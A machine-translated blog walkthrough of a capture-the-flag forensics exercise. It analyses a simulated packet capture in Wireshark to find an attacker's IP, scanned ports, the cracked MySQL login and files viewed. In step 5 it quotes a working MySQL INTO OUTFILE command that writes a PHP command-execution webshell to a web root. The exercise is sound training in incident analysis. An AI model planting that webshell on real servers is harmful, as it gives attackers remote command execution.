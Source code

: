 # Wireshark packet title analysis

Packet analyzer, also known as sniffing (Sniffers), is a means of network traffic data analysis, commonly used in the field of network security use, but also used in the field of business analysis, generally refers to the use of sniffers on the data stream of data interception and packet analysis (Packet analysis).

 - Analyzing network problems
 - Business analysis
 - Analyzing network information flow
 - Network Big Data Financial Risk Control
 - Detecting attacks that attempt to penetrate the network
 - Detecting misuse of network resources by internal and external users
 - Detecting the effects of network intrusion
 - Monitor linked Internet broadband traffic
 - Monitoring network usage traffic (including internal users, external users and systems)
 - Monitoring the security status of the Internet and user computers
 - Penetration and Spoofing

**The above is extracted from Baidu**
**The packet is simulated by myself, now it has been uploaded to csdn Anyone who is interested can download it and do it. **
We mainly use the case packet in this chapter to analyze to find out the key data, now let's look at the following case requirements.


1, a company's network system is abnormal, guessing that there may be hackers on the company's servers to implement a series of scans and attacks, the use of Wireshark packet capture and analysis software to view and analyze the PC20201 server C:\Users\Public\Documents path under the dump.pcapng packet file to find the hacker's IP address, and the hacker's IP address as a Flag. Submit the hacker's IP address as a Flag value (e.g., 172.16.1.1);
! [insert image description here](https://img-blog.csdnimg.cn/20200119113708308.png)
We can see from this section of the packet, 192.168.52.132 to 192.168.52.139 to request access to port 22 (ssh service), usually the server will not take the initiative to communicate with the target, so we judge the hacker ip address for 192.168.52.132.

2. Continue to analyze the packet file dump.pcapng to analyze the hacker through the tool on the target server which services for the password violence enumeration penetration test, the service corresponding to the port in accordance with the order from small to large sequential arrangement as Flag value (such as: 77/88/99/166/1888) to submit; 
! [Insert image description here](https://img-blog.csdnimg.cn/20200119114604373.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10, text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
! [Insert description of image here](https://img-blog.csdnimg.cn/20200119114604656.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10, text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
! [Insert description of image here](https://img-blog.csdnimg.cn/20200119114616597.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10, text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
From the above three images we can see that the hacker has requested port 21,22,3306 respectively. Therefore, the hacker scanned port 21/22/3306, may be small partners will be curious about not there is a port 20? Here port 20 is also ftp service, but different from port 21, his role is to transfer data (port 21 is used to control user authentication, connection establishment and closure). About port 20 we will explain in detail below.

3. Continue to analyze the packet file dump.pcapng to find out the hacker has obtained the basic information of the target server, please submit the host name of the target server obtained by the hacker as a Flag value; 
! [Insert image description here](https://img-blog.csdnimg.cn/2020011911521883.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text _aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
After filtering nbns packets, we can trace the udp data stream to get the host name metasploit, WINS server parsing (NBNS packets), WINS server is used to register the correspondence between the NetBIOS name and IP address of the record computer for querying by LAN computers. May use the tool nbtscan for scanning.

4. Hacker scanning may be directly on the target server of a service to implement the attack, continue to view the packet file dump.pcapng analyze the hacker successfully cracked the password of which service, and the version number of the service as a Flag value (such as: 5.1.10) to submit; 
! [insert image description here](https://img-blog.csdnimg.cn/20200119115534365.png)
View the packet, found that mysql service successfully logged in and behind the packet can be directly viewed version, can get the service version 5.1.73

5, continue to analyze the packet file dump.pcapng, the hacker wrote a Trojan horse through the database, will write the name of the Trojan horse as Flag value submission (the name does not contain a suffix); 
! [Insert picture description here](https://img-blog.csdnimg.cn/20200119115606882.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10, text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
Viewing the commands executed in the mysql packet, the hacker uploaded a one-sentence Trojan horse to the server's website after successfully logging in to the mysql database, with the file name test.php.
The hacker executed the command:select '<?php system($_GET[cmd]);? >' into outfile '/var/www/html/test.php'

6, continue to analyze the packet file dump.pcapng, the hacker wrote the Trojan horse through the database, the hacker wrote a sentence Trojan horse connection password as a Flag value submitted;

We have already got the command executed by the hacker in the previous step, so we can get the sentence Trojan's connection password as cmd.


7, continue to analyze the packet file dump.pcapng, to find out what files the hacker connected to a sentence Trojan horse viewed, the hacker viewed the name of the file as a Flag value to submit;

! [insert image description here](https://img-blog.csdnimg.cn/20200119115957711.png)
filter http packets, you can see the hacker using a sentence of Trojan horse to view the file name, as flag.txt

8, continue to analyze the packet file dump.pcapng, the hacker may find anomalous users and then again on the target server of a service password violence enumeration infiltration, successfully cracked out the password of the service logged in to the server to download a picture of the picture file in English words as Flag value submitted.

The English words in the image file were submitted as the Flag value. [Insert image description here](https://img-blog.csdnimg.cn/20200119120123434.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10, text_aHR0cHM6) text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
! [Insert description of image here](https://img-blog.csdnimg.cn/20200119120135497.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10, text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyODA0Nzg5,size_16,color_FFFFFF,t_70)
Directly filter ftp-data packets, track tcp streams, display and save the data as raw data and then save as export save as image format,, you can know the content of the downloaded image as hello,world!
** here on the ftp-data to explain, ftp-data is mainly the user to transfer data corresponding to the port of 20, so port 20 is also known as the FTP service data port. **

New Year's last update, after the year update will not be regularly updated, because there are more things need to travel often.
The direction of the post-new year update will probably be biased towards code auditing more a little bit, after the year I will put my energy into the study of code auditing, before playing the game I penetrated the host after the web source code code auditing database passwords and web site there are logical loopholes in the end of the bull wave, which also allows me to understand the importance of code auditing, so I will go to the depth of this piece of research, right.

Finally, I wish you all a happy new year!